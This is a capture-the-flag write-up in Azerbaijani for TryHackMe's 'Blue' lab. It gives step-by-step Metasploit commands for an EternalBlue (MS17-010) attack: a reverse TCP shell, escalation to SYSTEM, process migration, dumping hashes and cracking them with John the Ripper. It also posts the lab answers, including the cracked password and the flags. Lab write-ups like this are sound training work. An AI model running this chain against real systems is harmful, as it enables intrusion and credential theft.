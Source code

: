 # Lab: Blue – TryHackMe

**Məqsəd:** EternalBlue (MS17-010) zəifliyindən istifadə edərək foothold əldə etmək, post-exploitation, hash dump və flag toplamaq.

---

## Task 1: Recon

**Machine və AttackBox-u işə sal**  
- “Start Machine” və “Start AttackBox” düymələrini bas.  
- Split-Screen view istifadə et.  

**Port Scan:**  

nmap -sV -p 1-1000 -sC -T4 <target-ip>
Cavab: Açıq portlar 1000-dən aşağı → 3

Screenshot: (screenshots/nmap.png)

Vulnerability identification:

Cavab: ms17-010

## Task 2: Gain Access
Metasploit-i işə sal:

bash
Copy code
msfconsole
Exploit modulunu seç:

bash
Copy code
use exploit/windows/smb/ms17_010_eternalblue
Cavab: exploit/windows/smb/ms17_010_eternalblue

Əsas parametrin set edilməsi:

bash
Copy code
set RHOSTS <target-ip>
Cavab: RHOSTS

Screenshot: (Rhosts.png)

Payload təyin et:

bash
Copy code
set payload windows/x64/shell/reverse_tcp
Exploit-i işə sal:

bash
Copy code
exploit
Shell açılacaq




## Task 3: Escalate
Əvvəlki shell-i background et:

CTRL + Z

Shell to Meterpreter post-modulu:

bash
Copy code
use post/multi/manage/shell_to_meterpreter
Cavab: post/multi/manage/shell_to_meterpreter

Əsas parametrin set edilməsi:

bash
Copy code
set SESSION 1
Cavab: SESSION

Post modulunu çalışdır:

bash
Copy code
exploit
Shell meterpreter-ə çevriləcək



SYSTEM hüququnu yoxlama:

bash
Copy code
getsystem
shell
whoami
Cavab: NT AUTHORITY\SYSTEM


Process migration:

bash
Copy code
ps
migrate <PROCESS_ID>
SYSTEM hüququ ilə prosesə migrate et



## Task 4: Cracking
Password hash-ləri dump et:

bash
Copy code
hashdump
Cavab: Jon



Hash-i fayla yaz:

bash
Copy code
nano hashjon.txt
Hash-i hashjon.txt faylına yapışdır

John the Ripper ilə qır:

bash
Copy code
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashjon.txt
Cavab: alqfna22

Screenshot: (screenshots/john.png)

## Task 5: Find Flags  

Flag1 – System root:

bash
Copy code
cd /
cat flag1.txt
Cavab: flag{access_the_machine}

Screenshot: (screenshots/flag1.png)

Flag2 – Windows parol qovluğu:

bash
Copy code
cd windows/System32/config
cat flag2.txt
Cavab: flag{sam_database_elevated_access}

Screenshot: (screenshots/flag2.png)

Flag3 – Administrator Documents (Jon qovluğu):

bash
Copy code
cd /Users/Jon/Documents
cat flag3.txt
Cavab: flag{admin_documents_can_be_valuable}


Screenshot: (screenshots/flag3.png)
